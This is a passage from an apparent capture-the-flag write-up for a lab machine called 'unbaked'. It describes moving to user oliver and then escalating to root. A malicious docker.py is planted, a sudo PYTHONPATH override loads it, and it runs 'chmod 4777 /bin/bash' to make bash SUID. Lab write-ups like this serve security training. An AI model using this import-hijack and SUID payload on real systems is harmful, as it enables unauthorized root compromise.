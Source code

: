 <img width="1737" height="405" alt="image 17" src="https://github.com/user-attachments/assets/3718ee5c-4f68-4cf7-8b3e-74df22cb277d" />

Run `vuln.py` with sudo privileges

```bash
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
```

Changed that `oliver` file’s permission and then logged into oliver’s account using his private key `oliver` via ssh.

<img width="1800" height="678" alt="image 18" src="https://github.com/user-attachments/assets/09a5692d-c502-4511-b28b-16b3ca8a4f9d" />

---

### Shell As Root

Checking sudo privileges of user oliver, shows that user oliver can run `/opt/dockerScript.py` as root.

User oliver doesn’t have write privilege to that script, so no script editing this time.

But as we can see that script is importing docker(no fixed path), we can abuse that.

<img width="1815" height="399" alt="image 19" src="https://github.com/user-attachments/assets/76ffe148-306e-4ffe-80af-0edb33491599" />

Since Python resolves imports based on `PYTHONPATH`, we can place a malicious [`docker.py`](http://docker.py) in a controlled directory(`/home/oliver`), set that directory in `PYTHONPATH` during execution, and our code will be loaded instead of the legitimate `docker` module.

Created `docker.py` file in`/home/oliver` directory.

<img width="1504" height="181" alt="image 20" src="https://github.com/user-attachments/assets/dee73e94-8376-4f7d-9d17-2d13711ca8b3" />

```bash
import os
os.system('chmod 4777 /bin/bash')
```

This code will set SUID bit to `/bin/bash` binary.

Execute that script with sudo privileges.

```bash
oliver@unbaked:~$ sudo PYTHONPATH=`pwd` /usr/bin/python /opt/dockerScript.py
```

Ok, all set , now just have to execute that `/bin/bash` binary to get root level access.

<img width="1677" height="253" alt="image 21" src="https://github.com/user-attachments/assets/dcbeeeba-bb2d-4336-b4ad-cb8c16f46890" />

Grabbed root flag

<img width="1612" height="427" alt="image 22" src="https://github.com/user-attachments/assets/d204c9fd-8018-40ce-97fd-a50f6c6d572e" />

---

That’s it for this machine.✅
